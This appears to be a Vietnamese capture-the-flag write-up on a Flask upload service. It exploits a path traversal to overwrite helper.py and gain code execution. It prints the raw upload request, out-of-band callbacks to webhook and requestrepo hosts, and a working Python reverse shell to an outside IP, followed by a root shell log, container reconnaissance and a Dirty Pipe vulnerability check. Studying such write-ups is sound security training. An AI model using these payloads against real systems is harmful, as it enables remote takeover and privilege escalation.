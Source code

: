 ### Cái nhìn đầu tiên về challenge
Service cho phép người dùng upload file thông qua `/uploader` với phương thức POST.

Phân tích source code:

- `UPLOAD_FOLDER` là biến chứa giá trị của thư mục `uploads`, nơi chứa các file mà user upload.
- tại enpoint `/uploader`, service kiểm tra tên của file xem có chứa `main` hay không, nếu có trả về lỗi. Điều này cho ta gợi ý về việc upload file main.py, hoặc một file nào khác nếu có để có thể ghi đè lên file đã tồn tại.
- cũng tại enpoint này, có một lỗ hổng rõ ràng của path traversal:
```py
file_path = os.path.join(UPLOAD_FOLDER, f.filename)
```
tại vì `f.filename` không được validate, lỗ hổng này cho ta chỉ định vị trí mà file upload tùy ý. Để khai thác điều này, ta có thể upload file sau đó kiến file này được thực thi. Ví dụ như cấy ssh key vào server, tạo cron job, hoặc một file nào đó được service gọi mỗi khi hoạt động.
- Tiếp theo, ta nhận thấy rằng service gọi hàm `rename_file` của helper.py mỗi khi user upload file. Đến đây, ta có thể kết luận rằng intended solution của challenge này là upload file ghi đè lên helper.py của server, sau đó thực hiện khai thác bằng script python mà ta upload.
- Bên cạnh đó, có một luồng để chạy hàm `restore_helper` song song với Flask, nhưng ta không thấy hàm này ở trong source code. Có thể hàm đã bị tác giả xóa do hàm này sẽ đưa gợi ý về cách khai thác. Như vậy, càng làm rõ hơn về hướng giải quyết bài toán: upload file hepler.py, sau một thời gian, hàm restore sẽ chạy để đưa service hoạt động lại bình thường.

### Quá trình thực hiện khai thác cơ bản

Để khai thác lỗ hổng trên, đầu tiên ta có thể tìm cách thực hiện oob với python. Một số cách cơ bản như sau: 
- DNS Tunneling
- sử dụng các thư viện như requests, http.client, aiohttp, httpx
- sử dụng thư viện tiêu chuẩn urllib.request

Ta cũng nên tìm các khai thác sâu hơn với các cách thực thi các câu lệnh os bằng python
- sử dụng os.system()
- subprocess.run(), subprocess.Popen()
- một số thư viện khác như sh, plumbum


```http
POST /uploader HTTP/1.1
Host: 113.171.248.61:8008
Content-Length: 320
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTuqwF0trCu55CLlW
Cookie: PHPSESSID=2el5uhrnhfo974d5ugelqkvenp; session=eyJudW1fZmlsZSI6NX0.aCMihw.s5dJTCjQe6G5eb8NF1V4LZHfJoQ
Connection: keep-alive

------WebKitFormBoundaryTuqwF0trCu55CLlW
Content-Disposition: form-data; name="files"; filename="../utils/helper.py"
Content-Type: text/x-python


import requests

def rename_file(a, b):
    requests.get("https://webhook.site/d5b9fc03-371d-49f8-a78f-5100625091fe")


------WebKitFormBoundaryTuqwF0trCu55CLlW--
```
```
Lỗi xử lý file: No module named 'requests'
```
Qua nhiều lần thử nghiệm tương tự, một số thư viện như http.client và urllib.request đã thành công thực hiện request.

Bên cạnh đó, ta còn có thể thực hiện RCE như sau:
```
import os

def rename_file(a, b):
    os.system("nslookup uw7gblig.requestrepo.com")
```
hoặc
```
import subprocess

def rename_file(a, b):
    subprocess.run(["nslookup", "uw7gblig.requestrepo.com"])
```

Đến đây, ta có rất nhiều cách để thực hiện một reverse shell, một ví dụ trong https://www.revshells.com:
```
import socket,subprocess,os

def rename_file(a, b):
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("160.19.78.160",4444))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    subprocess.call(["/bin/sh","-i"])
```
Như vậy, ta đã có một shell trên server của mình.
```console
root@isp:~# nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 113.171.248.61 53498
/bin/sh: can't access tty; job control turned off
/app #  * Detected change in '/app/utils/helper.py', reloading
/app/uploads/../utils/helper.py
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

### Sau khi RCE
Kiểm chứng file main.py (real_main.py) thật sự trên server, ta thấy được có tồn tại func `restore_helper` và một folder backup.

Thấy rằng, ta đang ở bên trong một container Docker chứ không phải hệ thống host: `ps aux` có rất ít tiến trình, hostname ngẫu nhiên, và có file `.dockerenv`
```
/ # ls -la
total 88
drwxr-xr-x    1 root     root          4096 May  8 09:39 .
drwxr-xr-x    1 root     root          4096 May  8 09:39 ..
-rwxr-xr-x    1 root     root             0 May  8 04:04 .dockerenv
.
.
.
```

```
/app # cat /etc/os-release
NAME="Alpine Linux"
ID=alpine
VERSION_ID=3.21.3
PRETTY_NAME="Alpine Linux v3.21"
HOME_URL="https://alpinelinux.org/"
BUG_REPORT_URL="https://gitlab.alpinelinux.org/alpine/aports/-/issues"
/app # uname -a
Linux fda09c35d770 5.15.0-119-generic #129-Ubuntu SMP Fri Aug 2 19:25:20 UTC 2024 x86_64 Linux
```
Có thể thấy rằng ta đang trong một container chạy Alpine Linux v3.21, host là Ubuntu kernel 5.15.0.

Như vậy, có khả năng máy chủ dính [CVE-2022-0847-DirtyPipe-Exploits](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits). Ta có thể kiểm chứng điều này nhờ tool checker: [CVE-2022-0847-dirty-pipe-checker](https://github.com/basharkey/CVE-2022-0847-dirty-pipe-checker).

Kết quả trả về, máy chủ vulnerable với CVE này
```shell
/app/CVE-2022-0847-dirty-pipe-checker 
# ./dpipe.sh
5 15 0
Vulnerable
```
Như vậy, nếu một user có quyền truy cập vào server mà không có quyền root, ta có thể tiếp tục với exploit Dirty Pipe để ghi đè `/etc/passwd` hoặc tạo SUID shell
